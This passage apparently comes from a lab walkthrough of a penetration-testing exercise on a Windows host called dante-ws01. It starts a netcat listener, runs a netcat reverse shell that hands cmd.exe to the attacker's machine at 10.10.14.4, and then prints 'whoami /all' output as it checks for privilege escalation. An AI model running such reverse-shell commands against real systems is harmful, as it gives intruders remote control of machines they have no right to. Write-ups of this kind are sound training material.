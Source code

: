 Start a listener on our machine

```
nc -lvnp 1234
```

Execute nc64.exe

```
nc64.exe 10.10.14.4 1234 -e cmd.exe
```

<figure><img src="../../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

Callback received!!

Now, we check available privileges

```
whoami /all
```

```
USER INFORMATION
----------------

User Name         SID                                           
================= ==============================================
dante-ws01\gerald S-1-5-21-3659841024-4065501111-2845508916-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                        
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only                          
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only                          
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
```